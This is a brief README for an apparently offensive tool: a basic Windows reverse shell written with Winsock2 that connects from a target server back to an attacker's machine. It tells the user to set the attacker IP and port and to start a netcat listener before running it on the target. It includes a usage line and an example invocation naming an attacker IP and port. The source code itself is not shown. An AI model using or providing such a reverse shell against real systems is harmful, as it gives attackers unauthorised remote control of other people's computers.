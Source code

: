 # Basic-Reverse-shell
A basic reverse shell on Windows using socket programming with Win32 API. It is used Winsock2 DLL to create socket and make a reverse connection from server to attacker machine. Make sure to change the attacker IP, port and turn on netcat listener before run it on target server

Usage:
```ReverseShell.exe <attacker's IP> <port>```
Example:
```ReverseShell.exe 192.168.1.10 7777```
